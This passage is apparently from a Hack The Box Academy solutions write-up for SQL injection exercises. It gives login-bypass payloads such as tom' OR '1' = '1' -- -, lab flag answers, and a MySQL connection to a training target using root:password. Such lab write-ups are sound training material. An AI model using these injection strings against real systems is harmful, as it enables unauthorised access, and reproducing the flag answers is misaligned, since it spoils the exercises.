 Code: sql

```sql
tom' OR '1' = '1' -- -
```

![[HTB Solutions/CPTS/z. images/fb253166278de9adb71521ae57a7810d_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/58e854ce94e7c038c5ba4fea4df5d75d_MD5.jpg]]

Answer: `202a1d1a8b195d5e9a57e434cc16000c`

# Using Comments

## Question 1

### "Login as the user with the id 5 to get the flag."

After knowing the structure of the query by trial and error, students need to bypass it using the following query:

Code: sql

```sql
' OR ID=5)-- -
```

![[HTB Solutions/CPTS/z. images/a34108c5d102531c862f69ea5827df7e_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/f62eb79d655010d7def5e911466a76ac_MD5.jpg]]

Answer: `cdad9ecdf6f14b45ff5c4de32909caec`

# Union Clause

## Question 1

### "Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table."

Students first need to connect to the MySQL server on the spawned target machine, using the credentials `root:password`:

Code: shell

```shell
mysql -h STMIP -P STMPO -u root -ppassword
```

```
┌─[eu-academy-2]─[10.10.15.14]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ mysql -h 46.101.61.42 -P 30658 -u root -ppassword

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal 
mariadb.org binary distribution
```

